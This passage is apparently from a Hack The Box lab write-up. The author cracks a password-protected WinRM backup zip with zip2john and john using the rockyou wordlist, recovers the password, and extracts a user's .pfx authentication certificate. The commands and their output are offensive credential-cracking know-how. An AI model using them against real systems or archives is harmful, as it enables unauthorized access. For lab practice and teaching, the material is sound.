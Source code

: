 Two directories and their sub files are downloaded.
Let's take a look at the `Dev` directory first.


# Shell as `legacyy`

### Crack certificate

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ unzip winrm_backup.zip                             
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

I tried to `unzip` the zip file, but it has password.
Let's crack it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ zip2john winrm_backup.zip > winrm_backup.zip2john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8


┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ john winrm_backup.zip2john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-12-23 06:48) 5.263g/s 18281Kp/s 18281Kc/s 18281KC/s tabatha916..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

With `john` I could crack the hash : `supremelegacy`
Using the credential, let's unzip the zip file.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ ls
legacyy_dev_auth.pfx  winrm_backup.zip  winrm_backup.zip2john
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ file legacyy_dev_auth.pfx 
legacyy_dev_auth.pfx: data
```
